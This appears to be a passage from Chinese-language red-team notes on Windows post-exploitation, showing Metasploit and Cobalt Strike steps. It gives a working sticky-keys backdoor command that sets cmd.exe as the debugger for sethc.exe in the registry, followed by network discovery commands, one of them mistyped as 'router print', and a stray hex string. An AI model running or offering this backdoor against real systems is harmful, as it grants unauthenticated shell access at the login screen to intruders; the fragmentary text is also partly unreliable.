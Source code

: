 ## msf下操作
```
post/windows/manage/sticky_keys
exploit
```
![](img/4.png)
可惜我没成功

D46426BD8B9D204B076190B8B1ABB80B5AE89152

## CS客户端操作
```
shell REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v Debugger /t REG_SZ /d "C:\windows\system32\cmd.exe" /f
```

# 系统网络配置发现

> 发现网络信息

## CMD下：
```
ipconfig /all
```

## msf下操作：

```
post/windows/gather/enum_domains
```
# cs下操作：

```
shell ipconfig /all
```

# 获取ARP表

## CMD中
```
arp -a
router print
```
